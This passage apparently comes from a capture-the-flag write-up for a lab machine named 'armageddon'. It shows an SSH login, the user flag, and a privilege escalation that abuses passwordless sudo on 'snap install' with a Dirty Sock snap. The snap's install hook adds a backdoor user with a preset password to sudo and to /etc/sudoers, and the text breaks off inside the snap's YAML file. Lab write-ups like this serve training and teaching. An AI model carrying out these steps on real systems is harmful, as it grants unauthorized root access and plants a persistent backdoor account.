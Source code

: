 ## 9. Connect SSH and get User Hash
```
ssh 10.10.10.233 -l brucetherealadmin
Password: <HIDDEN PASSWD>

cd /home/brucetherealadmin
cat user.txt
9d1decefb906cf655c7b897247474a8f
```

## 10. Check for sudoable commands
``` 
sudo -l

User brucetherealadmin may run the following commands on armageddon:
    (root) NOPASSWD: /usr/bin/snap install *
```

## 11. Exploit Snap with Dirty Sock
https://shenaniganslabs.io/2019/02/13/Dirty-Sock.html
※ Kali Linux cannot craft Snaps properly, used Ubuntu 20.04.2.0 LTS (Focal Fossa) instead
```
## Install necessary tools
sudo apt install snapcraft -y

## Make an empty directory to work with
cd /tmp
mkdir dirty_snap
cd dirty_snap

## Initialize the directory as a snap project
snapcraft init

## Set up the install hook
mkdir snap/hooks
touch snap/hooks/install
chmod a+x snap/hooks/install

## Write the script we want to execute as root
cat > snap/hooks/install << "EOF"
#!/bin/bash

useradd dirty_sock -m -p '$6$sWZcW1t25pfUdBuX$jWjEZQF2zFSfyGy9LbvG3vFzzHRjXfBYK0SOGfMD1sLyaS97AwnJUs7gDCY.fg19Ns3JwRdDhOcEmDpBVlF9m.' -s /bin/bash
usermod -aG sudo dirty_sock
echo "dirty_sock    ALL=(ALL:ALL) ALL" >> /etc/sudoers
EOF

## Configure the snap yaml file
cat > snap/snapcraft.yaml << "EOF"
name: dirty-sock
version: '0.1' 
summary: Empty snap, used for exploit
description: |
    See https://github.com/initstring/dirty_sock

grade: devel
confinement: devmode

parts:
  my-part:
    plugin: nil
```